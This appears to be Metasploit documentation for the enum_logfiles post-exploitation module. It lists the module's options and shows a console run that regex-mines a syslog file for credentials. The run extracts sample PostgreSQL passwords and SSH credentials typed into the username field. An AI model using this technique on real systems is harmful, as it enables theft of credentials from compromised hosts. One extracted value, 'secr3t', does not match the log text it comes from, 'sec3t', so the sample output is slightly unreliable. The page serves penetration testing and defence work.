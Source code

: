 Searches for common (or given) logfiles and searches based on common patterns for interessting entries like (possible) passwords or session-IDs.

## Module Options

**FILES**

Define a custom list of files to check. Can be defined as full path files or ~/ for a file to check in every home directory.

**USE_UPDATEDB**

Use or created (if not already created) updatedb for finding logfiles


**SESSION**

Which session to use, which can be viewed with `sessions -l`

## Scenario

```
msf post(enum_logfiles) > options
Module options (post/unix/gather/enum_logfiles):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   FILES         /tmp/syslog.log  no        A special log file
   SESSION       1                yes       The session to run this module on.
   USE_UPDATEDB  true             no        Use an updatedb database and search for filenames instead of full path

msf post(enum_logfiles) > run

[+] /tmp/syslog.log is readable
[*] Checking logfile '/tmp/syslog.log'
[*] password? in file /tmp/syslog.log : 2000-00-01 01:01:54,569 INFO zen.zencommand: Deleting command 10.0.0.68 from $ZENHOME/libexec/poll_postgres.py '10.0.0.68' '5432' 'postgres' 'sec3t' 'False' server
[*] Search: ZENHOME/libexec/poll_postgres.py\s.*?\s.*?\s.*?\s'(.*?)'
[+] Found: secr3t
[*] password? in file /tmp/syslog.log : 2000-00-01 00:08:20,240 INFO zen.zencommand: Deleting command 10.0.0.68 from $ZENHOME/libexec/poll_postgres.py '10.0.0.68' '5432' 'postgres' 'P0stGre$' 'False' server
[*] Search: ZENHOME/libexec/poll_postgres.py\s.*?\s.*?\s.*?\s'(.*?)'
[+] Found: P0stGre$
[*] password or invalid user (bruteforce attack) in file /tmp/syslog.log : Jan 02 08:33:53 zen sshd[20225]: Failed password for invalid user r00tPassw0rd from 10.0.0.42 port 2224 ssh2
[*] Search: Failed\spassword\sfor\sinvalid\suser\s(.*?)\sfrom\s
[+] Found: r00tPassw0rd
[*] password or invalid user (bruteforce attack) in file /tmp/syslog.log : Jan  4 01:28:38 localhost sshd[11113]: Failed password for invalid user Start123 from 10.0.0.17 port 51474 ssh2
[*] Search: Failed\spassword\sfor\sinvalid\suser\s(.*?)\sfrom\s
[+] Found: Start123
[*] Post module execution completed
```
